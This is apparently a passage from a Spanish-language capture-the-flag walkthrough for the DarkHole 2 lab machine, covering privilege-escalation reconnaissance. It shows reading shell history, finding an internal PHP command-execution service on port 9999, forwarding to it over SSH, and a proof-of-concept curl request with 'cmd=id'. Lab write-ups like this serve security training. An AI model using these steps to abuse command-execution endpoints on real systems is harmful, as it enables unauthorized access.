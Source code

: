 Usuarios con bash: root (UID 0), lama (UID 1000), jehad (UID 1001), losy (UID 1002).

Comando para ver historial:

history

![[darkhole_2.19.png]]

Comandos críticos en el historial:
- cd /home/losy
- cd /opt/web
- curl "http://localhost:9999/?cmd=id"
- ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129

> [!tip] Servicio Interno Detectado
> Existe un servicio web interno en puerto 9999 con capacidad de ejecución remota de comandos.

Comando para listar puertos en escucha:

netstat -tulpn

![[darkhole_2.20.png]]

Confirmación: servicio en LISTEN en puerto 9999.

Comando para ver procesos:
```
htop
```

![[darkhole_2.21.png]]

El servicio corre como usuario losy, servidor PHP ubicado en /opt/web.

Comandos para revisar el script PHP:
```
cd /opt/web
cat index.php
```
![[darkhole_2.22.png]]

Script PHP simple para ejecución remota de comandos vía parámetro cmd.

### Vector de Escalada

Exploración del directorio home:
![[darkhole_2.23.png]]
	Se encontró la flag user.txt en /home/.

#### Explotación del Servicio Interno

Prueba de concepto con curl:
```
curl "http://localhost:9999/?cmd=id"
```

![[darkhole_2.24.png]]
